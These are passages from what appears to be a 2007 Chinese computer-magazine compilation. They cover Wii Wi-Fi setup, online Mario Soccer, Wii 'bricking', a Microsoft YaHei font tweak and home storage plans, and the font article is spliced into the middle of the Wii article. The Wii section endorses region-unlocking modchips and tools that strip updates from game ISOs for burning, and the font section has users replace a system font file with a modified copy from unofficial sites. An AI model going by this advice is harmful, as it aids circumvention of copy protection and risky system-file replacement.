通过用户名和密码登录无线路由器的管理后台，在左侧工具列表中选择“简单设定”选项，并且点选右侧窗口中第一个按钮进行下一步设置。选择“自动”选项，因为选择自动选项，我们就免去了每次打开电脑都要拨号的过程，起到了方便操作的作用。之后无线路由器会自动选择PPPoE的连接方式，直接单击第二个按钮进入下一步设置即可。接下来我们就需要输入提供商给我们的宽带账号和密码了，输入完毕之后，单击第二个按钮进行下一步设置。之后的设置窗口不用理会，直接单击第二个按钮即可，这时候只要再单击“保存”按钮，稍等一会，无线路由器就会连接成功了，并有相关提示页面。现在只要将该页面关闭即可，点击窗口上最后一个按钮同样可以关闭。

这样的操作完成之后，只要无线路由处于开启的状态下，我们就可以通过无线路由器实现无线上网了，当然，联网对战Wii游戏也不在话下。将Wii的电源、视频和音频输出，以及感应器与输出端（电视或者电脑，如果用电脑作为Wii的输出端的话，我们还需要添置一块电视卡）相连接，开启电源开关（可以在Wii主机上按下开关键，也可以按下手柄上的开关键，能实现同样的功能），当进入到Wii主菜单之后，晃动手柄（Wii Remote）选择屏幕左下角的“Wii”图标，进入到Wii的主要设置画面，选择右侧的“Wii本体设定”，然后进入“Wii本体设定1”页面中，通过点选右侧三角形图标进入到“Wii本体设定2”页面中，并在本页面中选择第3项（网络连接）（如图6），进入到网络连接页面中，选择该菜单内的第一个选项（连接设置）。默认状态下都是未设定的连接，不过我们一旦设置成功之后，下次联网就不用这样费劲了。选择一个未连接选项之后，会出现让我们选择是通过无线的方式连接入网还是使用有线的连接方式入网，选择无线连接方式。之后点击第一个连接选项之后，开始进行无线网络的搜寻，如果你之前参看我们的无线网络搭建，并且没有错误操作的话，很快就会出现搜索到的无线连接，点击该连接之后开始连接无线网络。

> 如果该无线网络我们之前设置过密钥的话，搜索到的无线网络旁边会出现一把醒目的小锁头，只有通过输入正确的密钥之后，方可成功连接无线网络。否则，即便是搜索到了别人家的无线网络，没有密钥的话，无线网络也是摆设。

好了，连接成功之后，默认情况下，系统会提示给Wii主机进行升级，只要按照提示即可完成。当然，也可以尽情联网对战。

#### 六、Wi-Fi经典游戏——马里奥足球

足球，这一世界上最最流行的体育运动，引得无数球迷为之疯狂。同样，在游戏世界中，足球更是玩家心中不能割舍的部分。尤其是在Wii游戏主机上，搭配灵动的Wi-Fi联网功能，使得游戏玩家可以轻松找到联网对战的玩伴，尽情驰骋在广阔的绿茵场上！

之前我们已经搭建了无线网络，并且将Wii游戏主机连接入网了，接下来将Wii游戏主机启动，放入游戏光盘，点选Wii主界面的游戏频道（第一个频道），并进入到《马里奥足球》的游戏画面。

进入游戏之后，通过晃动手柄将指针指向并在“NINTENDO Wi-Fi CONNECTION”选项上按A键。出现让我们选择Mii的画面，选择我们之前设定的Mii形象。

> 如果之前有过选择，其中的Mii形象旁边将有对号的标记，选择该Mii连接Wi-Fi之后，会提示我们是否使用这个Mii，选择第一个选项，表示继续使用该Mii。

接下来点选“OK”键，确认无误之后，再点选“USE THIS Mii？”选项，这时候Wii就开始连接Wi-Fi了。

如果网络没有问题的话，我们的Mii就可以联上Wi-Fi了。在连接成功之后，我们有两种对战形式可以选择。一种是与认识的朋友相互对战，另外一种则是在网络上直接搜索其他玩家进行对战。

> 如果是朋友之间相互联机对战的话，需要双方先相互加为好友，并且《马里奥足球》的区版要相同，如果是欧版就都是欧版，不能一个欧版一个美版，这样是连接不了的。

### 2007年热点技术与应用

## 《电脑爱好者》 合订本 附录

### 2007年热点技术与应用

首先与Wii好友连接对战，在左侧自己刚刚选定的Mii形象下面，选择“FRIEND ROSTER”选项，接下来Wii会提示我们输入一个12位的数字（如图7）。仔细观看，上面“YOUR FRIEND CODE IS: ****** ******”中，12位数字是给你的Wii准备的，当然，对方也会为你准备好不同的12位数字。点选“ADD FRIEND”之后，在接下来的画面中输入Wii好友提供的12位数字，之后点选“DONE”按钮。



> 小提示：号码并非不变的，它是跟着Mii形象的变化而变化的，如果大家用了某个Mii形象的号码，那就不要换了，不然你的朋友还要重新输入你的号码。

如果连接和号码都没有问题的话，即可在“ADD FRIEND”中出现好友的号码。点选该好友之后，稍等片刻在出现的画面中点选第一项“ACCEPT”选项即可开始和朋友开始对战了。当然，我们可以通过点选“SEARCHING”选项来邀请朋友。

如果暂时没有好友在线，我们也可以搜索Wii服务器上的玩家，一同激情对战。选择“RANKED”后在“RANKED OPTIONS”画面中选择第一项，“SERIES”选项。接下来就开始搜索和我们同样孤独求败的玩家了。搜索的速度根据网络情况而定，只要连接出现两颗星星就可以开始对战了。

#### 七、你的Wii“砖”了吗

变砖的意思是指主机的固件被破坏，因而无法正常启动的一种状态，拿我们平时接触最多的电脑主机来说，变砖就好比是电脑中了某种病毒，或者是更加厉害的逻辑锁，从而使电脑不能正常顺利地进入操作系统中。对于电脑主机来说，“砖”了以后可以重新安装操作系统，再度焕发主机的青春。但对于Wii来说，“砖”代表着自己革命生涯的结束，不能游戏，不能联网，只能摆设，一切似乎都已经过去。至少目前是。

##### 1. 半砖和全砖

变砖之后，还是要分出等级的——半砖和全砖。所谓半砖，自然是还有生还的希望，正所谓水能覆舟，亦能载舟。在将非同区的低版本Wii游戏主机搞砖之后，亦可将本区内低版本的半砖机复原。这就是Wii游戏的“奇妙”之处。对于全砖机的命运，理论上是可以通过刷入正确的固件版本来覆盖错误文件的，不过就目前各界“高手”对Wii主机的研究来看，尚未达到此程度，只能说前途是光明的，但道路很坎坷。

##### 2. 是谁让Wii变了砖

说到“砖”机，其实就是任天堂为了防止盗版，而将Wii游戏主机划分了区域，也就是说美版机器只能玩美版游戏。一旦Wii游戏主机误读了其他非本区的程序，很可能就会变砖。主要表现在游戏升级方面。如果用日版Wii游戏主机来玩美版游戏，而且又在提示固件升级的时候确定了升级，那么你的Wii多半会变砖。原理是这样，通过安装直读芯片之后的Wii游戏主机可以实现跨区域读取游戏的操作，如果主机的固件版本低于游戏中附带的升级文件版本，就会被游戏中的升级文件覆盖。如果仅仅是这样那倒好说，但这种升级往往采用了一种强制安装的方式，在安装前仅出现提示字样，并不允许玩家选择是否同意，这样一来就更增加了变砖的可能性。

那么Wii为什么总是要升级呢？这和Wii游戏主机的特性有关。与那些系统固件不可修改的游戏机种相比较，Wii是有固件空间存在的。之所以这样说是因为任天堂让Wii升级之后，可以修改和扩充Wii的固件信息，以便修改或者增加更多的新功能等等，从而使Wii的功能可以有无限的发展空间。

> 小资料：跨区游戏的WiiKey
WiiKey，不可不说的WiiKey。WiiKey，用最直白的话来说就是非任天堂手下的人开发的产品，用以跨区域读取游戏的一种芯片。尽管老任（任天堂）非常反感，但对于广大的玩家来说，这样的芯片真是“来者不拒，多多益善”啊。在开放全区直读的同时，WiiKey设置盘还有引导各种模拟器游戏的功效，不过唯一不方便的就是WiiKey设置盘需要用NGC手柄来操作，不然就算手里有设置盘，也是不行的（如图8）。



##### 3. 如何防止Wii变砖

首先，最根本也是最可靠的办法就是不玩新发行的跨区游戏，还是采取观望的态度，等待超级玩家先测试，待没有危险之后再自己玩。一旦有固件升级，可以通过网络将其升级，这也是避免Wii变砖的有效办法。与此同时，在测试新游戏的时候，一旦遇见异区版本游戏提示升级，对于新手用户来说，用立刻关闭主机或者关闭电源的方式来中止更新是最佳选择。

那么，如果我们去掉讨厌的升级程序，一切就应该万无一失了。接下来笔者就给大家推荐两款去除Wii游戏升级程序的小软件。

##### 4. 去除Wii游戏升级程序

###### （1）Wii Brick Blocker

Wii Brick Blocker是外国一位Wii玩家所开发的一款免费工具，主要作用就是去除Wii游戏中的升级程序。

-   准备工具：
    Wii Brick Blocker
    .NET Framework 2.0

注：如果要想成功使用Wii Brick Blocker程序，必须提前安装.NET Framework 2.0或以上程序才能行。

因为软件主要是针对去除Wii游戏中升级程序而开发，并没有其它多余的功能，将下载回来的Wii Brick Blocker程序解压之后，运行主程序即可看见软件极其清爽的界面，通过浏览按钮选中我们需要去除升级程序的游戏，之后再点选“Patch”按钮，即可完成升级程序的去除。

在使用Wii Brick Blocker程序去除Wii游戏中升级程序的过程中，玩家一定要保证各种渠道得来的Wii游戏，是标准的Wii ISO，也就是大小锁定在4.699.979.776 Bytes。

简简单单，Wii游戏的升级程序就被我们去除了。现在刻录成DVD光盘就可以随意玩耍，而不用担心有升级的提示了。

### 字体设置与使用技巧

◆文/TMG zcy

微软雅黑字体是微软公司为其新一代Vista贵族操作系统而开发的一种默认中文字体，该字体将作为默认字体取代目前XP系统下默认的宋体汉字。因为它支持高清显示的ClearType功能（ClearType技术是一种增强文字显示效果的技术，可以让电脑显示器上显示的文字更加清晰和圆润），因此，微软声称，它将是迄今为止个人电脑上可以显示的最清晰的中文字体。与此同时，微软方面也为这种新型字体的开发付出了十分昂贵的代价：我国国内的各类字典、辞海共收录了2万余个汉字，可微软在每个字上的造价成本就达到100美元左右。这款汉字显示清晰、易读、不伤眼，并给人一种古典优雅之感！此外，最可贵的是，它支持WinXP系统，只要从Vista中提取出来放进字体目录就可以体会Vista的感觉，因此，这也是雅黑近来如此热门的原因所在。

既然大家已经大体了解了微软雅黑字体的情况，下面就来看一下它的不俗表现吧！不过在此之前，我们首先要做的就是字体的下载和安装。

对于雅黑字体，我们有很多网站可以下载，比如：http://www.mydown.com/tests/zitixiazai/316/418816_ds.shtml等。下载完成后，我们就得到了两个名字分别为“msyh.ttf”和“msyhbd.ttf”的字体文件。然后将这两个字体文件复制到系统盘目录下的WINDOWS文件夹内的Fonts（字体）文件夹内，双击安装就可以了。就这样，我们的电脑中就多了一种微软雅黑字体。在进行文档录入的时候，你就可以将你录入的汉字改成我们刚刚安装好的雅黑字体了。我们不妨体验一下，雅黑字体的效果是不是更清晰呢？

然而，雅黑的设计理念是要将其应用于电脑的系统显示上，浏览网页更轻松，电脑外观的汉字显示也更明显。因此，我们需要在程序中将字体调整为我们新安装的雅黑字体，具体的方法如下：

步骤一：在桌面的空白处单击鼠标右键，选择“属性”选项，然后将弹出的“显示属性”窗口切换成“外观”标签，再单击“高级”按钮。在弹出的窗口中，我们通过点击“项目”右侧的箭头，在它的下拉菜单中选择“消息框”选项，于是我们就可以看到在它的下面会出现一个字体的下拉菜单，在这里我们将默认的宋体字改为“微软雅黑”。

步骤二：消息框的字体进行修改后，我们马上就可以看到预览的效果，如果字号大小看起来不舒服的话还可以进行人为的调整。

步骤三：然后我们还可以通过类似的办法将“高级外观”中的所有项目改成雅黑字体，单击“确定”按钮即可保存。

现在我们在电脑上就随处可见雅黑字体了，看一下，是不是比原来的显示看起来视觉效果更好啊？

可是，细心的朋友可能会发现，这样的修改似乎只是把电脑显示的外观修改成了微软雅黑字体，电脑仍旧将宋体汉字作为它的默认字体。不用着急，下面我们就来根治一下这一问题，将它的默认字体也变成微软雅黑！

有人说我们打开系统盘中的WINDOWS→Fonts文件夹，就可以发现宋体字的文件名为“simsun.ttc”，所以我们只需要把微软雅黑的文件名更替为和宋体一致的“simsun.ttc”名称就可以了，系统还是会找这个文件名进行默认。然而，系统并不像我们想象的那么笨，它会辨认出这个字体并非宋体字，于是也就自然不会替换成功。因此我们在替换默认字体的时候就要借助系统文件替换工具和修改版的微软雅黑字体的力量。这样做尽管麻烦，但是一想到我们的系统会变得超级的清晰，就感觉多做些努力还是值得的。

系统文件替换工具和修改版的微软雅黑字体也可以从网络下载，参考的下载地址分别是：http://www.ayxz.com/soft/8547.htm和http://down.cbifamily.com/down.200731/xgyahei.rar。

系统文件替换工具下载完成后，双击该文件运行。之后，我们就会在弹出的窗口中看到“需要被替换的程序”和“被替换下来的程序备份到”、“浏览程序”选项，于是我们就可以在这三个键入位置分别输入或选中“C:\WINDOWS\Fonts\simsun.TTC”、宋体的备份位置、以及修改版雅黑字体，最后单击“开始替换”就可以了。

我们一定要注意的是，我们在将宋体进行备份的时候，一定要仍然将它置于系统盘内，否则会出现错误。再有，我们的修改版雅黑字体的文件名同样是“simsun.TTC”。

替换完成后，系统会自动重启以实现雅黑字体的系统默认，现在所有的中文字体就都变成雅黑字体了。以后，对于长时间在电脑前工作或学习的你来说，这样带来的视觉感受一定会与以往大不不同。当然如果你觉得新的系统默认字体看上去不太舒服的话，还是可以将宋体替换回来的。所以你大可不必担心，放心的尝试吧！

###### （2）WiiISOUpdateRemover

准备工具：
WiiISOUpdateRemover
.NET Framework 2.0

与Wii Brick Blocker程序相比，WiiISOUpdateRemover似乎更加专业了一些，它同时集成了游戏名称显示区域等信息。而且这个去除Wii游戏升级程序的速度也是很不错的，和Wii Brick Blocker相比，也是有过之而无不及。

运行WiiISOUpdateRemover程序，通过点选“开启Wii游戏映像档”按钮，选中要去除升级程序的Wii游戏，当然我们也可以通过在菜单栏的“档案”选项进入，并选择“开启Wii游戏映像档”按钮来完成。选择完毕之后，点选下面“截取更新”按钮，之后会弹出一个让我们选择保存路径的窗口，其实这里保存的是为了我们日后还原Wii游戏的时候需要用到的文件。选择路径并命名之后，开始去除升级程序，很快就完成了。

一旦我们去除Wii游戏中的升级程序失败，或者去除之后的游戏在Wii游戏主机中无法运行的话，我们还可以通过WiiISOUpdateRemover的“还原更新”按钮来完成，点选该按钮，之后选择我们之前截取更新时候生成的UPD文件，之后即可将升级程序还原回去。去除了Wii游戏的升级程序之后，我们就可以安心刻录成光盘来玩了。

小编提示：并不是所有游戏都可以通过去除升级程序来玩的，目前已有美版的《银河战士3：堕落》去除升级程序后，在Wii中运行出现黑屏现象。不过为了避免我们的Wii受到损伤，还是小心谨慎为妙。

总结：体验Wii的让我们欢腾，更让我们感动，曾几何时，我们还在电脑前敲敲打打地游戏着，我们还在为没有合适场地进行运动苦恼着，现在好了，有了Wii，我们可以尽情游戏，尽情运动了。

### 优化组合：大容量数据存储系统与方案

◆文/风之扬

如今，随着存储技术的发展，大容量存储设备不断推出。在容量不再成为瓶颈的情况下，广大用户的存储需求也开始悄然发生变化。比如用户会考虑如何保证在出现数据灾难时损失最小，如何将海量存储数据与他人共享，如何最优化利用存储设备。另一方面，从实用性考虑，我们还有更多存储方案可以选择，如可利用外置硬盘产品、光存储产品进行灵活搭配。因此，进行存储方案规划时，我们需要综合考虑多种因素：如何使用光存储才能发挥它们应有的价值，品牌移动硬盘究竟比自己组装的移动硬盘强在哪里，外置硬盘除了可以使数据脱离PC，是否还应该具有其他价值，中小企业该如何选择合适的存储方案。下面，我们首先介绍一些基础的存储知识，并模拟了一个个相对简单、独立的个性化存储环境，通过最简化的存储部件和存储方案，帮助用户轻松解决日常存储问题。

#### 一、初接触：大容量数据存储基础知识

Internet技术的普及，使得存储技术也开始发生革命性的变化。这种变化主要表现在三个方面：首先是存储容量的急剧膨胀；其次是数据就绪时间的延展，如网络数据必须保证每天24小时、每周7天、每年365天处于就绪状态；最后是数据存储结构的变化，在Internet和全球化电子商务的时代，数据应该是面向全世界的，数据的存取只应该受到安全机制的管理，而不应该受到地域空间的约束。

##### 1. 大容量数据存储技术与产品

如今，数据备份、灾难恢复和存储资源管理等存储理念正在得到用户的接受，存储技术也逐渐得到更广泛的应用。目前，市场上的存储产品主要有磁带机与磁带库、光盘库、磁盘阵列等。

###### (1) 磁带库

广义的磁带库产品实际上由磁带和磁带机有机结合而成，一般包括自动加载磁带机和磁带库。其中，自动加载磁带机可以备份100GB～200GB或者更多的数据。它可以从装有多盘磁带的磁带匣中拾取磁带并放入驱动器中，或执行相反的过程。自动加载磁带机能够支持例行备份过程，自动为每日的备份工作装载新的磁带。对于拥有工作组服务器的小公司或分理处来说，使用自动加载磁带机可以方便地完成自动备份工作。

磁带库也是基于磁带的备份系统，它能够提供基本自动备份和数据恢复功能，但功能更加强大。它的存储容量可达到数百PB（1PB=100万GB），可以实现连续备份、自动搜索磁带，也可以在驱动管理软件控制下实现智能恢复、实时监控和统计，整个数据存储备份过程完全摆脱了人工干涉。



磁带库不仅数据存储量很大，而且在备份效率和人工占用方面拥有无可比拟的优势。如图1所示，这是一款StorageTek SL8500模块式磁带库系统，它支持多种存储介质和不同的操作环境，是整合企业级和中型计算基础架构的理想之选。

另外，随着制造技术和生产工艺的不断改进，磁带存储产品的性能还将得到很大的提高。包括：磁带将被做得越来越小；存储能力越来越大；磁带机的自动化程度也将越来越高……而且，随着自动化程度越来越高，磁带机的优势越来越明显，从而在未来的存储市场中将长期扮演主流的角色。

###### (2) 光盘塔、光盘库和光盘网络镜像服务器

相信很多用户对光盘存储产品并不陌生。光盘不仅存储容量巨大，而且成本低、制作简单、体积小。光存储的最大优势在于，只要完成了前期投入（购买DVD刻录机），后期的数据保存成本就很低了。以下是和光盘相关的几种大容量存储产品。

其一，光盘塔。一张光盘的存储容量毕竟有限，对于海量信息存储的网络系统来讲是远远不够的。要想获得海量信息的网络存取，就必须将保存有大量不同信息的几十张甚至几百张光盘组合起来使用。CD-ROM光盘塔（CD-ROM Tower）由多个SCSI接口的CD-ROM驱动器串联而成，光盘预先放置在CD-ROM驱动器中。受SCSI总线ID号的限制，光盘塔中的CD-ROM驱动器一般以7的倍数出现。用户访问光盘塔时，可以直接访问CD-ROM驱动器中的光盘，因此光盘塔的访问速度较快。

其二，光盘库。这是一种带有自动换盘机构（机械手）的光盘网络共享设备。用户访问光盘库时，自动换盘机构首先将CD-ROM驱动器中光盘取出并放置到盘架上的指定位置，然后再从盘架中取出所需的CD-ROM光盘并送入CD-ROM驱动器中。由于光盘库普遍使用的是标准EIDE光驱（或标准5片式换片机），所以维护更换与管理非常容易，同时还降低了成本和价格。又因光盘库普遍内置有高性能处理器、高速缓存器、快速闪存、动态存取内存、网络控制器等智能部件，使得其信息处理能力更强。因此，这种有巨大联机容量的设备非常适用于图书馆一类的信息检索中心，尤其是交互式光盘系统、数字化图书馆系统、实时资料档案中心系统、卡拉OK自动点播系统等。不过，由于自动换盘机构的换盘时间通常在秒量级，因此光盘库的访问速度相对较低。

其三，光盘网络镜像服务器。这是继光盘库和光盘塔之后，最新开发的能够实现光盘信息共享的网络存储设备。光盘网络镜像服务器不仅具有大型光盘库的超大存储容量，而且还具有与硬盘相同的访问速度，其单位存储成本（分摊到每张光盘上的设备成本）大大低于光盘库和光盘塔，因此光盘网络镜像服务器已开始取代光盘库和光盘塔，逐渐成为光盘网络共享设备中的主流产品。

###### (3) 磁盘阵列

硬盘阵列又叫RAID (Redundant Array of Inexpensive Disks，即廉价磁盘冗余阵列)，这是一种高效、快速、易用的网络存储备份设备。其作用就是将多个独立的磁盘组合成一个磁盘组，而这个磁盘组可以被看成一个大的磁盘。磁盘阵列读写方式的基本要求是，在尽可能提高磁盘数据读写速度的前提下，必须确保在一张或多张磁盘失效时，阵列能够有效地防止数据丢失。磁盘阵列的最大特点是数据存取速度特别快，其主要功能是可提高网络数据的可用性及存储容量，并将数据有选择性地分布在多个磁盘上，从而提高系统的数据吞吐率。因此，进行组合后，这个磁盘组的性能并没有受到多个磁盘组合而造成性能减弱，相反还有所增强，因此，硬盘阵列技术被广泛用于数据存储行业中。另外，磁盘阵列还能够免除单块硬盘故障所带来的灾难后果，通过把多个较小容量的硬盘连在智能控制器上，可增加存储容量。在大型存储中，我们通常通过存储机柜来实现数据存储；而在服务器上的存储，我们就通过支持RAID功能的RAID卡来实现。 RAID分为很多种，如常见的RAID 0、RAID 1至RAID 7，另外还有组合，如RAID0+1(也被称为RAID 10)、RAID0+5(50)、RAID 5+3（RAID 53），每一个RAID级别都有其优点和缺点。服务器RAID选用，需根据具体应用对数据安全性、速度等性能的要求，结合投资来综合考虑。目前常用的RAID方式为RAID1、RAID0、RAID5及RAID1+0，如如果数据重要而性能不重要则选RAID1就可以了；如果性能重要而数据不重要则选RAID0，如果两种都重要只能用RAID5或RAID1+0。如图2所示，即为一款Adaptec 29320ALP-R卡。



由此可见，在网络海量存储备份系统中，磁带库、光盘库、磁盘阵列等存储设备因其信息存储特点的不同，应用环境也有较大区别。由于访问速度非常快，所以磁盘阵列主要用于网络系统中的海量数据的即时存取、数据的实时共享，还可以用于小型的VOD点播系统。光盘塔的光驱访问速度慢了一些，而且光驱数量有限，数据源很少，所以供同时使用的用户数量也很少，但是由于光驱的价格很低，作为低端产品，它还是能够适用于一些用户的要求。光盘库则主要用于网络系统中的海量数据的访问，在访问量不是非常大、但是数据要长期保存的情况下，光盘库的作用很突出。磁带库则更多用于网络系统中的海量数据的定期备份。

##### 2. 灵活组合：设计个性化的存储需求

目前，市场上存储产品和存储方案较多，所使用的存储技术也各不相同，因此，普通用户在选择这些产品的时候也面临不少麻烦。在大型企业级用户的存储环境中，针对不同数据存储需求，通常会将数据存储划分为三种：在线存储、离线存储和近线存储。这三种类型适用于不同的场合，并通过不同的设备来完成数据存储。其中，在线存储的应用比较广泛，其最大特征是存储设备和所存储的数据时刻保持“在线”状态，可以随时读取和修改，以满足前端应用或数据库对数据访问的速度要求。目前，最主要的在线存储是磁盘存储。早期的在线存储设备主要是内置硬盘，现在还包括光纤磁盘阵列或SCSI磁盘阵列等磁盘设备。由于在线存储价格相对昂贵，但性能最好，大多数核心应用都采用了这种存储形式。

实际应用中，我们完全可以针对规模较小的普通用户进行规划，设计更加灵活的存储方案。首先，离线存储的主要作用就是备份，而DVD刻录光盘的初期投入和后续耗材成本都很低，非常适合作为数据备份之用。因此，可以考虑使用DVD光盘作为离线存储之用。

> > 离线存储。离线存储主要针对大型存储环境，主要用于对在线存储的数据进行备份，以防范可能发生的网络灾难，因此又可称为备份级存储。离线海量存储的典型产品就是光盘、磁带或磁带库，价格相对低廉。其中，磁带存储价格相对最低，容量价格比最好。在大多数情况下，针对此类数据的访问操作不太频繁。

其次，对于数据备份规模较大的个人用户而言，移动硬盘则可以成为个人用户的近线存储设备。在实际应用中，用户还可以灵活选择具有文件共享功能的无线路由器等设备满足大容量存储需求。

> > 近线存储。近线存储是介于在线存储和离线存储之间的应用，它对存储性能的要求并不太高，但在信息定位查找方面要求比较迅速，如要求寻址迅速、传输率高。因此，不常用的数据占总数据量的比重比较大，这就要求近线存储设备的容量相对较大。常见的近线存储设备主要为DVD-RAM光盘塔和光盘库设备。

可见，如何将这些资源组合成我们需要的存储环境，就变得十分关键了。这也是本专题下一步需要重点讨论的问题。

### 三、优化组合：常见的大容量数据存储应用配置方案

下面，列举了一些常见的应用场合，如个人应用、数字家庭、游戏玩家、SOHO办公和中小企业应用等，并分别提出一些典型的存储方案。

| 应用场合 | 应用方案 |
|----------|----------|
| 普通用户 | 大容量U盘（或2.5英寸外置移动硬盘）+容量适当的主流硬盘+内置式DVD刻录机 |
| 游戏玩家 | 系统内采用RAID 0模式硬盘组+1英寸或1.8英寸外置移动硬盘+内置DVD刻录机 |
| 数字家庭 | PC内部采用大容量硬盘作为数据缓冲+具有网络功能的3.5英寸外置硬盘+多功能DVD刻录机 |
| SOHO办公 | 具有文件共享功能的无线路由器+3.5英寸外置移动硬盘+外置DVD刻录机 |
| 中小企业 | DAS、NAS、SAN等方案 |

##### 1. 个性存储：普通用户的存储应用

从普通用户的需求来看，日常应用模式比较复杂，包括：文档处理、数字内容的下载、数字内容的制作、玩游戏、简单的数据共享与备份等，可以说应用范围十分广泛，这就需要一套比较均衡的存储方案。基于上述考虑，典型的个人存储解决方案可以采用以下设备：大容量U盘（或2.5英寸外置移动硬盘）+容量适当的主流硬盘+内置式DVD刻录机。分述如下：

- (1) 硬盘性能要保证工作、学习等日常应用的基本需求
由于目前操作系统文件比较大，而且许多用户习惯使用Ghost等软件进行数据备份，因此，系统硬盘的空间不能太小。同时，还要能保证Microsoft Office系列软件、Photoshop图文处理等基本应用能够顺畅运行。如果需要经常拷贝2GB以下的数据，可以考虑购买一个2GB左右的U盘。

- (2) 本地硬盘数据的存储规划
需要考虑数字内容（主要包括各种文档、音频视频、图片等文件）的存储，用于存放数据的本地硬盘空间也不能太小。对于普通用户来说，如果习惯于使用一块硬盘，许多任务也就全部落在这一块安装在系统内的“在线存储”硬盘上了。为了数据的安全，使用要划分两个或两个以上分区，以不同功能对硬盘空间进行划分，一方面便于数据的归档整理，从另一方面也可以有效地提高数据安全性。如C盘专门负责系统应用，D、E、F盘等分别负责应用软件、重要数据等方面的应用。

- (3) 通过局域网络完成小容量的数据共享
至于大量的数据转移，则应该考虑一块外置移动硬盘。一方面，基于USB2.0接口的移动硬盘可以方便地进行数据共享；另一方面，随着2.5英寸硬盘容量的不断增加，即便是一款携带方便的移动硬盘也可以作为“近线存储”设备使用，备份一些偶尔会用到的数据，在安全性、易用性，乃至性价比方面都是相当不错的选择。

- (4) 选择DVD刻录机作为小型存储应用中的重要设备
对于使用频率不太高的数据，可以使用DVD刻录机来共享或传播一些大型的DVD视频或其他多媒体资料。配合LightScribe光雕刻录技术，普通用户也可以制作出精美的DVD盘片。

> 小知识：光雕刻录技术。光雕刻录即盘标刻录功能，刻录机能在特殊的刻录盘片背面刻出精美的图案，用于美观和识别刻录盘片。目前能够刻录的方式包括：LightScribe、LabelFlash以及Printable Disc。其中，LightScribe简称LS，是由美国惠普公司开发成功的一种利用激光在光盘表面上刻印图案的技术。其原理就是控制光头在光盘的表面上的特殊染料层打孔，而颜色的深浅并不是通过激光功率来调节，而是打孔越密集，颜色就越深，反之越浅，刻印时的激光功率是固定的。LightScribe盘片的外形与一般的可打印盘片基本一致，盘片背面的棕黄色涂层是一种特殊化学物质，当这种特殊的化学物质被特定波长的激光照射时，就会产生化学变化同时颜色发生改变。使用LightScribe技术时，可以通过新版的Nero软件进行操作。

##### 2. 高效便携：游戏玩家的存储应用

职业游戏玩家的应用范围相对较小，尤其是电子竞技职业玩家。作为新兴的体育竞技项目，电子竞技对于PC系统的性能有极大要求，所以硬盘的性能绝对不能成为系统的瓶颈。另外，战报录像的存储也是这些玩家日常生活的部分。因此，他们的主要需求是：系统性能高、数据携带方便。典型的解决方案为：系统内采用RAID 0模式硬盘组+1英寸或1.8英寸外置移动硬盘+内置DVD刻录机。

首先，对于系统内的“在线存储”而言，游戏玩家需要的是绝对的性能，相对的容量。虽说目前游戏的尺寸越来越大，但许多游戏文件的大小比较固定。因此，硬盘的容量方面我们大可不必太在意。至于性能方面，推荐这些用户使用RAID 0模式的硬盘组合。

其次，对于“近线”设备，游戏玩家往往没有太高的要求。只要能够随身携带自己的配置文件，并且能够保存自己的战斗录像、记录就可以了。由于文件尺寸比较小，因此对于外置硬盘的空间也没有太大需求，同时也不需要外置硬盘有特别好的性能。另外，由于游戏是一个集体活动，因此，需要经常参加一些群体活动，对移动硬盘的便携性也有一定的需求。

再次，备份与共享方面，游戏玩家的需求一般。日常应用中，通过互联网共享就可以轻松解决存储问题，甚至网络存储服务也能满足需求。当需要收藏一些经典的游戏时，可能就需要有一台内置的DVD刻录机了，通过它可以轻松实现收藏、存储、备份等功能。

此方案适用场合比较多，比如，对于某些软件测试者来说，对软件性能的追求、对多种软件的性能比较以及经典软件的收集，和上述方案具有异曲同工之妙。不过，相对而言，软件测试者所积累的数据可能要逐渐增多，频繁往返于公司和家里会需要较好的移动性能，在这种场合下，一个大容量的移动硬盘应该可以轻松解决这个问题。

##### 3. 轻松娱乐：数字家庭的存储应用

随着3C（即计算机Computer、通信Communication和消费类电子Consumer Electrics）融合大潮的来临，数字技术进一步渗透至家庭乃至办公电器的每一个角落。在这一背景下，“数字家庭”的概念应运而生。这是一个包含了很多IT产品、应用模式的大集合，比如音响系统、影院系统等。其主要作用是向传统家电输送数字媒体内容。

对于数字家庭的电脑存储应用需求，可以分析如下。第一，要保证有足够大的容量，因为数字媒体尤其是电影的数据量还是很大的，丰富的节目能够明显提高娱乐的趣味性。同时，它还可以成为整个家庭环境的媒体数据集中存储地，本地任何一台PC均可轻松访问。第二，要保证有足够稳定的性能。在数字环境下的数据存储会涉及到超长时间工作、实时数据共享等应用，这包含了对硬盘的功耗、温度等方面的要求。通过相对稳定的性能，除了保证系统运行外，还能够保证数据广播、共享的流畅程度。第三，要保证有一定的数据广播能力。比如，可以在局域网内架设私人的网络电台。因此，其需求是需要有超大容量空间、方便的数据广播共享能力。对于这种应用场合，可以采用以下解决方案：PC内部采用大容量硬盘作为数据缓冲+具有网络功能的3.5英寸外置硬盘+多功能DVD刻录机。分述如下：

首先，在硬盘方面，可以考虑入门级企业硬盘了。一般来说，台式电脑的寿命无法与一直开启并连续工作的RAID系统中的极端环境相比，所以很多用户希望硬盘既能够在RAID系统中广泛应用，又能像传统台式机一样提供较低的容量成本。WD Caviar RE系列硬盘提供了这样一种可能。它按照企业级标准设计和制造，能在24×7的连续工作环境下提供很强的可靠性。同时，这种入门级企业硬盘容量也足够大。以WD1600SB为例，这是一款采用了IDE接口的WD Caviar RE系列硬盘。WD1600SB基于高可靠性的WD Caviar RE鱼子酱平台构建，具有企业专用的功能，为高容量的近线存储应用提供了卓越的可靠性。虽然WD1600SB属于企业级的WD Caviar RE系列，但是仍然采用IDE接口，因而接口兼容性非常好，照顾了很多老用户和一些高性价比的DVR解决方案。如图3所示。

其次，在数据传输方面，可以选择具有无线能力的局域网。不过，无线网络的数据传输能力十分有限，当涉及到大规模数据访问时，就显得捉襟见肘了。比如，在系统环境中的其他PC节点访问媒体中心中存储的数字高清电影，在播放时可能会出现一些停顿。也就是说，我们还需要一个类似“文件服务器”的纯数据存储设备。现在，许多3.5英寸桌面型移动硬盘开始提供网络功能，纯粹的网络文件存储设备，访问起来更为便捷，速度也要比访问媒体中心内部的硬盘略快一些。最为重要的是，它能够有效地减轻媒体中心PC的存储空间压力，大量的媒体数据可以存储在这种外置存储设备上，而媒体中心则可兼顾下载资源之功能。



